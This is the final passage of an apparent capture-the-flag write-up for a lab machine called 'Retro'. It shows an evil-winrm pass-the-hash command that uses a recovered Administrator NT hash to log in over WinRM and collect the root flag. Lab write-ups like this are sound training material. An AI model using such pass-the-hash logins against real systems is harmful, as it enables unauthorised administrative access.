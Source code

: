 Got the .ccache file and the NT hash of the Administrator account.

Since winRM port 5985 is open on the box, lets winrm and login and grab our root.txt file.

```bash
evil-winrm -i 'retro.vl' -u 'Administrator' -H '252fac7066d93dd009d4fd2cd0368389'
```

![image.png](/assets/images/Retro_VL/image%2028.png)

Submitting our root.txt

Rooted!!

![image.png](/assets/images/Retro_VL/image%2029.png)

Thanks for reading 😊

